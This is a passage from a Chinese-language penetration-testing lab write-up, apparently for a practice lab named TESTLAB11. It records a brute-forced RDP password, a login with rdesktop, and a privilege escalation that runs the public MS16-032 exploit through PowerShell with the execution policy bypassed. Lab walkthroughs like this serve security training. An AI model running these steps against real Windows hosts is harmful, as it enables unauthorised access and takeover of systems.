 爆破得到密码为`tiger`，使用该密码登陆远程机器：

```bash
rdesktop -u arm554 -r disk:share=/root/Downloads/ 127.0.0.1
```

![Alt text](/img/game/TESTLAB/TESTLAB11/1512716933414.png)


利用[ms16_032](https://www.exploit-db.com/exploits/39719/)提权：

```bash
PS C:\Users\arm554\AppData\Local\Temp> powershell -ExecutionPolicy Bypass

PS C:\Users\arm554\AppData\Local\Temp> Import-Module .\39719.ps1

PS C:\Users\arm554\AppData\Local\Temp> Invoke-MS16-032
```
